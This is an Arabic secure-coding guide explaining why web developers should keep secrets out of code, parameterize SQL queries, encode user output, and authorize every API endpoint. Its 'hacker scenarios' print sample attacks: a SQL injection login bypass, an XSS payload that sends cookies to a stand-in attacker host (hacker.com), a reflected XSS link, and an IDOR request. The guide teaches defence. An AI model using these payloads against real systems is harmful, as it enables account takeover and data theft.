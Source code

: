 # شرح إرشادات أمان VibeCoding: لماذا نصر كثيراً؟

هذا المستند يشرح أهمية كل قاعدة في "إرشادات الأمان". فهم هذا سيساعدك على رؤية كودك من "منظور هاكر" ومنع المشاكل قبل حدوثها.

---

## ⭐ القواعد الذهبية

### 【عدم تشفير الأسرار في الكود】 & 【استخدام متغيرات البيئة】 & 【تجاهل الملفات السرية】

**لماذا هذا مهم؟**

هذه القواعد الثلاث هي قوانين البقاء العليا في العالم الرقمي. كودك (خاصة عند استخدام Git) سيتم نسخه ومشاركته وتخزينه في أماكن متعددة. كتابة كلمات المرور ومفاتيح API و"الأسرار" الأخرى مباشرة في الكود مثل وشم كلمة مرور الخزنة على جبهتك - أي شخص يراك (يرى الكود) يمكنه بسهولة فتح خزنتك.

**سيناريو الهاكر 😈**
> أحب البحث عن `password` أو `api_key` أو `db_connect` في GitHub. وجدت مشروعك العام وفي ملف يسمى `config.js` رأيت هذا الكود: `const db_password = 'Password123!';`. ممتاز! لا أحتاج حتى لمهاجمة موقعك - يمكنني الآن محاولة الاتصال مباشرة بقاعدة بياناتك بهذه كلمة المرور.

**عواقب كارثية 💥**

**سيطرة كاملة على الخدمة.** الهاكرز يمكنهم سرقة وتعديل وحذف جميع بيانات مستخدميك، أو استخدام خدمات API المدفوعة الخاصة بك لأنشطة غير قانونية، مع تحميلك جميع الفواتير.

---

## 📥 معالجة مدخلات المستخدم

### 【منع هجمات حقن SQL】

**لماذا هذا مهم؟**

تخيل قاعدة البيانات كروبوت يفهم فقط لغة SQL. إذا ربطت مدخلات المستخدم مباشرة مع أوامرك، المستخدمون يحصلون على فرصة لنطق "أوامرهم" الخاصة. الاستعلامات المعلمة تخبر الروبوت: "اسمع، الجزء التالي هو **مجرد بيانات** - مهما كان المحتوى، لا تنفذه كأوامر."

**سيناريو الهاكر 😈**
> في حقل تسجيل الدخول في موقعك، أدخلت `' OR '1'='1' --` كاسم المستخدم. أفترض أن استعلام SQL الخاص بك مكتوب هكذا: `"SELECT * FROM users WHERE username = '" + userInput + "';`. مدخلاتي حولته إلى `SELECT * FROM users WHERE username = '' OR '1'='1' --';`. `'1'='1'` دائماً صحيح، لذا تجاوزت التحقق من كلمة المرور ودخلت بنجاح في أول حساب مستخدم (عادة المدير).

**عواقب كارثية 💥**

المهاجمون يمكنهم تجاوز تسجيل الدخول وسرقة جميع بيانات قاعدة البيانات (قوائم المستخدمين وتشفير كلمات المرور) أو حتى حذف قاعدة البيانات.

### 【منع هجمات البرمجة النصية عبر المواقع (XSS)】

**لماذا هذا مهم؟**

إذا كان موقعك الإلكتروني مثل مرآة تعكس مباشرة محتوى مدخلات المستخدم، فيمكن للمستخدمين تضمين نصوص JavaScript ضارة في المحتوى. عندما يتصفح مستخدمون آخرون هذا المحتوى، سيتم تنفيذ النص الضار في متصفحاتهم، مما يسرق معلوماتهم. ترميز كيانات HTML يحول الأحرف الخاصة في النصوص الضارة (مثل `<` و `>`) إلى نص عادي غير ضار، مما يجعلها غير قابلة للتنفيذ.

**سيناريو الهاكر 😈**
> تركت تعليقاً في قسم التعليقات لمقالك: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. تم حفظ هذا النص في قاعدة البيانات كما هو. الآن أي مستخدم يقرأ هذا التعليق سيقوم متصفحه تلقائياً بتنفيذ هذا النص، مما يرسل ملفات تعريف الارتباط الخاصة بتسجيل الدخول إلى خادمي. بملفات تعريف الارتباط، يمكنني انتحال هويتهم لتسجيل الدخول إلى الموقع.

**طريقة الهجوم المتقدمة: كيف يمكن لكود المستخدم أ سرقة بيانات المستخدم ب؟**

كثير من الناس يتساءلون: "المهاجم لم يعدل موقعي الإلكتروني، فكيف يمكنه سرقة بيانات المستخدمين الآخرين؟" دعني أشرح بمثال كامل:

1. **المهاجم أ ينشئ رابطاً ضاراً**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **المهاجم يخدع الضحية ب من خلال الهندسة الاجتماعية**
   - بريد إلكتروني: "انظر إلى العمل الرائع لهذا المصور!"
   - منشورات وسائل التواصل الاجتماعي، تعليقات المنتديات، إلخ

3. **ماذا يحدث عندما تنقر الضحية ب على الرابط؟**
   ```php
   // كودك (قابل للاختراق)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // الإخراج الفعلي لمتصفح ب
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **لماذا يمكنهم سرقة بيانات ب؟**
   - ب مسجل الدخول بالفعل في موقعك الإلكتروني
   - النص الضار يعمل تحت **نطاقك**، لذا يمكنه:
     - قراءة ملفات تعريف الارتباط الخاصة بـ ب (بيانات اعتماد تسجيل الدخول)
     - الوصول إلى localStorage الخاص بـ ب
     - إجراء طلبات باسم ب
     - تعديل محتوى الصفحة (مثل: نماذج تسجيل دخول مزيفة)

**مثال بسيط**
تخيل أن موقعك الإلكتروني هو بنك:
- المهاجم أ يضع "إيصال سحب مزيف" (نص ضار) في بهو البنك
- العميل ب يظن أنه شرعي ويدخل كلمة مروره
- أ يحصل على كلمة مرور ب

XSS يسمح للمهاجمين بوضع "إيصالات سحب مزيفة" (كود ضار) في "بهو البنك" الخاص بك (الموقع الإلكتروني).

لهذا يجب عليك استخدام `htmlspecialchars()` - يضمن عرض جميع مدخلات المستخدم كنص عادي، وليس كرمز قابل للتنفيذ.

**عواقب كارثية 💥**

سرقة حسابات المستخدمين على نطاق واسع، تسريب البيانات الشخصية، تسلل المواقع الإلكترونية بمحتوى التصيد أو نصوص التعدين.

---

## 🔐 الصلاحيات والمصادقة

### 【حماية نقاط النهاية API】

**لماذا هذا مهم؟**

واجهات الواجهة الأمامية (UI) يمكنها إخفاء الأزرار، لكن الهاكرز لا يثقون أبداً في الواجهات. يستدعون APIs الخلفية الخاصة بك مباشرة باستخدام أدوات (مثل Postman وcurl). يجب أن تفترض أن كل نقطة نهاية API ستُهاجم مباشرة، لذا كل نقطة نهاية يجب أن تكون حارساً مستقلاً يتحقق بنفسه من هوية وصلاحيات الزوار.

**سيناريو الهاكر 😈**
> اكتشفت أن لتعديل المعلومات الشخصية، الواجهة الأمامية ترسل طلباً إلى `/api/user/update`. رغم أنني لا أستطيع رؤية أزرار تحرير الآخرين، أفترض أن هذا API يميز المستخدمين عبر `userId`. جربت إرسال طلب إلى `/api/user/update?userId=1` (معرف المدير) مع البيانات التي أردت تعديلها. يا إلهي، الخادم لم يتحقق من أن الطلب جاء مني شخصياً وغير بنجاح إيميل المدير!

**عواقب كارثية 💥**

المستخدمون العاديون يمكنهم تعديل بيانات مستخدمين آخرين أو حتى المديرين، أو تنفيذ صلاحيات لا يجب أن يملكوها، مما يسبب فوضى في النظام.